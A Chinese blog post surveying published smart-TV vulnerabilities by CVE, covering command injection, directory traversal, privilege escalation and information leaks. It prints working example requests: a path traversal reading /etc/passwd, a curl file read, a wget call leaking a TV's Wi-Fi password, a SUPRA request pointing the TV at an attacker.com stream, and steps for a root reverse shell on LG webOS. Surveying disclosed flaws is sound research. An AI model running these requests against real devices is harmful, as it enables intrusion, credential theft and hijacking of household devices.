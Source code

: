 # 智能电视漏洞汇总

**此文为加密收费内容添加我微信支付后可看:**
<!--more-->
![IP定位](https://tool.lu/netcard/)
# 智能电视漏洞汇总

最近在测试某大厂的智能电视中遇到了不瓶颈，毕竟是第一次专注的研究智能电视，对电视的了解还不够深。挖不动烦躁的时候，就回头想想曾经看过的智能电视的漏洞，记忆都很零散，今天把智能电视曾曝出的漏洞做个汇总，看看大佬们都有哪些奇妙的思路。

### 命令注入漏洞

#### 某电视名称命令注入

[某电视](https://www.netsparker.com/blog/web-security/hacking-smart-tv-command-injection/)名称重命名使用反引号可注入任意命令。文章中并没有没有说细节吗，猜测是前台设置的电视名称，后端应该是使用系统命令将电视名称设置成 hostname ，由于没有过滤从而造成了任意命令执行。

![The Sleep option on the Smart TV set](https://delikely.github.io/2021/04/10/%E6%99%BA%E8%83%BD%E7%94%B5%E8%A7%86%E6%BC%8F%E6%B4%9E%E6%B1%87%E6%80%BB/smart_tv_sleeppng.jpg)

#### 乐视电视利用 UPnP 安装应用

18年 GeekPwn 上的[乐视电视](https://www.sohu.com/a/279830384_609380)任意应用安装也比较有意思。利用 UPnP 提供的下载服务下载并安装应用，之前并没有想到还有这种操作。现在电视使用的大多使用第三方的投屏服务，这种骚操作的机会少了。

发现 UPnP 协议中通过 XML 文件声明告知手机控制端自身提供原用于遥控器应用更新下载服务可被滥用，通过控制端连接电视后即可发送 XML Message 的方式请求 DownLoadFile 的服务，电视内部收到服务请求未进行有效过滤即进行下载 APK 动作。下载 APK 应用后，发送消息请求电视 DLNA 服务向电视 EUI 系统发送特定内容广播。利用电视广播服务，调用系统内部静默安装服务，并对 Activity 进行调用。

### 目录遍历漏洞

#### TCL 目录遍历(CVE-2020-27403)

[TCL 电视](https://sick.codes/extraordinary-vulnerabilities-discovered-in-tcl-android-tvs-now-worlds-3rd-largest-tv-manufacturer/) 7989 开放了 web 服务，未授权用户能够访问电视中的文件。

![TCL directory file structure vulnerability](https://delikely.github.io/2021/04/10/%E6%99%BA%E8%83%BD%E7%94%B5%E8%A7%86%E6%BC%8F%E6%B4%9E%E6%B1%87%E6%80%BB/tcl-directory-file-structure-vulnerability.png)

#### Sony Smart TV 目录遍历（CVE-2019-10886）

索尼智能电视 “图片共享” 应用没有限制目录，从而可以读取任意文件。

```
root@kali:~# curl -v http://192.168.1.102:10000/contentshare/image/default.prop
Trying 192.168.1.102...
TCP_NODELAY set
Connected to 192.168.1.102 (192.168.1.102) port 10000 (#0)
> GET /contentshare/image/default.prop HTTP/1.1
> Host: 192.168.1.102:10000 
> User-Agent: curl/7.58.0
> Accept: /
>
< HTTP/1.1 200 OK
< Connection: close
< Content-Length: 591
< Content-Type: application/octet-stream
<
# 
# ADDITIONAL_DEFAULT_PROPERTIES
#
ro.secure=1
security.perf_harden=1
ro.allow.mock.location=0
ro.debuggable=0 ro.zygote=zygote32
dalvik.vm.image-dex2oat-Xms=64m
dalvik.vm.image-dex2oat-Xmx=64m
dalvik.vm.dex2oat-Xms=64m dalvik.vm.dex2oat-Xmx=512m
ro.dalvik.vm.native.bridge=0 debug.atrace.tags.enableflags=0 
# 
# BOOTIMAGE_BUILD_PROPERTIES 
# 
ro.bootimage.build.date=2016? 11? 14? ??? 15:34:56 JST ro.bootimage.build.date.utc=1479105296     ro.bootimage.build.fingerprint=Sony/BRAVIA_ATV2_PA/BRAVIA_ATV2:6.0.1/MMB29V.S50/1.6.0.06.14.0.00:user/release-keys persist.sys.usb.config=none

Closing connection 0 
```

#### Appear TV 目录遍历（CVE-2018-7539）

Appear TV XC5000 、XC5100 电视的 “Maintenance Center” 服务对外开放了WEB服务，监听在 8088 端口。

```
GET /../../../../../../../../../../../../etc/passwd
Host: x.x.x.x:8088
User-Agent: curl/7.56.1
Accept: */*
HTTP/1.1 200 OK
Content-Length: 1110
Content-Type: text/plain; charset=utf-8
Cache-Control: max-age=3600
Server: fuzzd/0.1.1

root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
```

### 权限提升

#### [LG webOS OS](https://blog.recurity-labs.com/2021-02-03/webOS_Pt1.html) 任意文件覆盖提权

**任意文件覆盖**：luna-send-pub 命令调用 downloadmanager 服务可以下载文件到本地的任意位置，且文件属主为 root 。

系统中的 /etc/luna-services2/ls-hubd.conf 配置文件中定义了可执行脚本，脚本在点数开机的之后会被 Root 调用指令。

```
[Dynamic Services]
ExecPrefix=/usr/sbin/setcpushares-ls2
LaunchTimeout=300000
```

于是，可以通过覆盖 ls-hubd.conf 配置文件，将 ExecPrefix 的值设定为自定义脚本所在的路径。当电视重启之后，就能够提升到 Root 权限了。

1. 在本地创建 ls-hubd.conf 文件；
2. 在电视中编写反弹 shell 脚本；
3. 使用 luna-send-pub 下载 ls-hubd.conf 覆盖原有文件；
4. 本地监听，然后重启服务之后就拿到了具备 Root 权限了 Shell 了。

### 拒绝服务漏洞

#### Sony BRAVIA 电视 TCP 泛洪攻击（CVE-2019-11890）

Sony 电视泛洪攻击电视会重启。原来电视也怕 TCP 泛洪攻击，还以为只有像工控的这种低性能设备重启的概率会高一些。

此外，还有不少其他形式的 DOS，如缓冲器溢出等，由于没有公布细节，这里就不讲了。

### 其他漏洞

#### ADB

- CVE-2019-6005：[KDDI Smart TV Box](http://jvn.jp/en/jp/JVN17127920/index.html) 默认在 5555 端口开放了 ADB。
- CVE-2019-9871：[Jector Smart TV FM-K75](https://github.com/cvereveal/CVEs/tree/master/CVE-2019-9871) 默认在 5555 端口开放了 ADB，且权限为 root。

#### SUPRA智能云电视视频劫持漏洞（CVE-2019-12477）

[SUPRA](https://www.freebuf.com/vuls/208520.html) 电视开放了 80 端口，提供的功能包含自定义的投屏服务，但没有验证用户和资源的合法性，于是未授权用户就可以播放任意内容。

向电视设备插入任意视频播放的构造请求如下。

```
GET /remote/media_control?action=setUri&uri=http://attacker.com/fake_broadcast_message.m3u8 HTTP/1.1
Host: 192.168.1.155
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

现在，电视开放的端口还挺多的。尤其是现在有的家电厂商希望把智能电视打造为智能家居的中枢，肩负的任务也越来越多，但不少的服务没有基本的授权验证。

#### Sony Smart TV 信息泄露

Sony Smart TV 在 10000 端口开放了 WEB 服务，未授权用户访问 /contentshare 页面，可以获取无线网络的明文密码。

```
root@kali:~# wget -qO- --post-data='{"id":80,"method":"getContentShareServerInfo","params":[],"version":"1.0"}' http://[ip_tv]:10000/contentshare/
{"result":[{"ssid":"DIRECT-GD-BRAVIA","keyType":"","key":"8362tbwX","deviceName":"","url":"http:\/\/192.168.49.1","touchPadRemote":"notSupported"}],"id":80}
```

### 总结

智能电视形似一台有着巨大屏幕的手机，与手机不同的是智能电视作为服务端提供各类服务。由于电视厂家有各自生态的考量，应用五花八门，分析纰漏出来的漏洞，不少是权限问题，各种服务的认证问题还是重中之重。从CVE 、CNVD 中的数据来看，拒绝服务最多，然后是目录遍历、命令执行，最后是信息泄露、提权等。

首发于：[火线Zone](https://mp.weixin.qq.com/s/trYEzCCfd8R7ppWVs-Zp9Q)


{{<music url="https://cdn.jsdelivr.net/gh/ybrc/ybrc.github.io@source/Music/41.mp3" name="" artist="Mr·Yang" cover="https://cdn.jsdelivr.net/gh/ybrc/ybrc.github.io@img/avatar.png" fixed="true" volume="100" loop="all" autoplay="true" preload="auto" >}}

<img src="https://tool.lu/netcard/">
